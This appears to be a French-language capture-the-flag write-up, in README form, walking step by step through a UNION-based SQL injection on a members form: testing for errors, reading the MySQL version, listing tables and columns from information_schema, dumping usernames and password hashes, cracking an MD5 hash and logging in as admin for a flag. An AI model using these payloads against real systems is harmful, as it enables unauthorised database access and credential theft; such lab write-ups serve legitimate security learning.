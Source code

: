 # SQL INJECTION ADMIN MEMBERS

One Paragraph of project description goes here

## Etape 1: detection de la faille sql

### Prerequisites

Dans le formulaire des members, taper la commande suivante:
```
1'
```
Cela teste si le formulaire contient une erreur Mysql.


## Etape 2: detection de la version mySql
Nous savons aue le nombre de colonne est de 2
Pour connaitre la version de mysql, il suffit de taper la commande suivante:
```
1 or 1=1 union all select 1,convert(@@version using latin1)
```
On s'apercois que la version est > 5, si la version est < 5, alors il va falloir deviner les tables, ce aui n'est pas le cas ici.
Pour cela on a besoin de information_schema, il contient toutes les tables et colonnes de la base de données.


## Etape 3: DETECTION DES TABLES
Pour avoir le schema de la BDD et les noms de ses tables, on utilisent table_schema et  table_name

```
1 or 1=1 union all select table_schema, table_name from information_schema.tables
```
On demande a avoir le shema de la base de donée c'est a dire toute les tables qui sont liée avec differents utilisateurs ainsi que les noms des tables.
Ce qui nous interresent c'est la table Members_Brute_Force liée avec la table db_default.

## Etape 4: DETECTION DES COLUMNS


```
1 or 1=1 union all select table_name, column_name from information_schema.columns
```
On s'apercoit que la column usernme et password dependent de la table db_default.

## Etape 5: EXPLOIT

Le script d'exploit ressemblera alors a:

```
1 or 1=1 union all select password, username from Member_Brute_Force.db_default

```
root et admin on le meme hash md5: 3bf1114a986ba87ed28fc1b5884fc2f8, il faut decrypter le hash, cela correspond a shadow.
Il suffit maintenant de se connecter avec root ou admin, on obtient le flag:
B3A6E43DDF8B4BBB4125E5E7D23040433827759D4DE1C04EA63907479A80A6B2

